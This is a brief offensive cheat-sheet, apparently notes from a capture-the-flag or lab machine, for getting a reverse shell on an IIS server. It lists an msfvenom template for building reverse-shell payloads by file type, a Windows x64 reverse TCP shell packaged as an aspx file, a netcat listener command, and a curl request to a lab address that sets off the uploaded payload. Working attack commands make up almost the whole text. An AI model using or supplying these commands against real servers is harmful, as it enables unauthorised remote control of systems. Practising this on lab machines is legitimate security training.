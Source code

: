 Reverse shell by file type:
```
msfvenom -p <payload> LHOST=<IP> LPORT=<PORT> -f <FILETYPE> -o <OUTPUT>.<FILETYPE>
```

IIS:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=53 -f aspx -o pwn.aspx
```

Set up netcat listener:
```
nc -nvlp <PORT>
```

Use curl to get reverse shell
```
curl http://10.10.160.36:49663/nt4wrksv/pwn.aspx
```